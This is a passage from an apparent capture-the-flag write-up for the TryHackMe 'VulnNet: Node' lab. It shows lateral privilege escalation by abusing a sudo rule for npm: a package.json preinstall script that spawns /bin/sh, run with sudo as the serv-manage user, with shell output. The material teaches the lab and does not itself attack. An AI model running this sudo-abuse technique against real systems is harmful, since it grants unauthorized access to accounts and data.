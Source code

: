 ⇒ We can run `/usr/bin/npm` with user **serv-manage**

Check npm on https://gtfobins.github.io/gtfobins/npm/#shell

```
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```

Look like we don't have permision on `/tmp` when exploit
![](/commons/THM/VulnNet2-Node/4_error_exploit.png)   



Create a TF folder manually

```shell
www@vulnnet-node:/tmp$ mkdir ./exploit
www@vulnnet-node:/tmp$ TF=exploit
www@vulnnet-node:/tmp$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
www@vulnnet-node:/tmp$ sudo -u serv-manage /usr/bin/npm -C $TF --unsafe-perm i
sudo -u serv-manage /usr/bin/npm -C $TF --unsafe-perm i

> @ preinstall /tmp/exploit
> /bin/sh

whoami;id                                                                              
serv-manage
uid=1000(serv-manage) gid=1000(serv-manage) groups=1000(serv-manage)
```
